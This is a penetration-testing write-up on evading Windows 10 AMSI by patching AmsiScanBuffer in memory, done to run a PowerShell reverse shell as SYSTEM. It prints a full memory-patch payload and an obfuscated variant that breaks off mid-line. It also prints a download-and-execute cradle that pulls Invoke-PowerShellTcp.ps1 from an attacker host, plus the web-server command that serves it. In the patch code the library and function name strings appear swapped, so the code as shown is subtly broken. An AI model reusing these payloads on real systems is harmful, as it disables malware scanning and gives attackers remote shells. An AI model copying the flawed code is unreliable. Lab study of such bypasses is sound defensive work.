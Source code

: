 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline  {#section-0}

The goal of this write-up is to evade the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) using AMSI memory patching technique. The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime.

By default, windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space.  `AmsiScanBuffer()`and `AmsiScanString()` are used by the antivirus before execution to scan the buffer and strings for suspicious activities. This ultimately prevents arbitrary execution of code.
# AMSI Evasion {#section-1}
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Code fragmentation involves breaking down malicious code into smaller, seemingly harmless components. This is then assembled at runtime to evade static analysis.
This approach challenges antivirus scanners that rely on signature-based detection.

##### Obfuscation: 
Obfuscation techniques are utilized to deliberately obscure the actual intent and functionality of a script. By employing various obfuscation methods, such as code encryption, renaming variables, adding meaningless code snippet to obscure intent of the script, attackers can make their code appear convoluted. This makes AMSI scanners challenging  to interpret the true purpose of the script.

#####  Memory Patching: 
Memory patching modifies the AMSI Dynamic Link Library (DLL) in memory during runtime. This technique allows threat actors to temporarily disable or alter the functionality of AMSI. This allows attackers to run malicious scripts in memory without hindrance and triggering alerts. 
#### PowerShell Downgrade: 
PowerShell downgrading is switching the current PowerShell to Windows PowerShell verison 2.0. This version does not have AMSI protection, which makes it susceptible to arbitrary code execution. By using an older version of PowerShell, attackers can bypass the built-in security measures present in newer versions and execute malicious scripts undetected.
## Proof of Concept {#section-2}

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through PowerShell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI successfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching  {#section-3}
In order to bypass AMSI, the tester utilized the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"

using System;
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code. This effectively avoides AMSI from scanning the PowerShell code. This method allows the attacker's  to execute PowerShell code in memory without triggering AMSI's detection.

However, it is essential to acknowledge that the above memory patching payload might be flagged by ASMI before it could patch the `ASMIScanBuffer.dll` itself. Thus it is necessary to implement proper obfuscation methodologies before delivering the payload. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

The below code snippet contains a payload that has undergone multiple layers of obfuscation.
```bash
$GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11evXUFDQD589KWR9QtwKq2Qg0mE6uMREzx7iRIZJOK2qLeZKpRqZslro01qcJC03aScqnLmSiSVJ6AIwZKGZF1aEaYGjS13PQyKmRdpmc2yMyISCN1yYuQCBZkF5i2LKBOpm7FcEshpWYz6QTzs9m5WNt6PONU73eoXpVQZKAbDUydPdN2ZdTeNdkOjDZHErYeh5b0Tqq9N = @"
// thing 
// using syStEm.CoLLeCtiONS.ArrAyLiST;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32")]
       public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11

```


After implementing effective obfuscation techniques, the payload is dropped in the PowerShell command prompt. The `ASMIScanBuffer.dll` returns an `Invalid Argument` and ends the AMSI program without being able to scan any code. With AMSI neutralized, the tester proceeded by hosting a Python web server on port 8443 to serve a PowerShell Reverse Shell Scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the payload, the tester successfully initiated a reverse TCP connection via PowerShell, executing the script in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester achieved a  Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Reference  {#section-4}
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) && [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
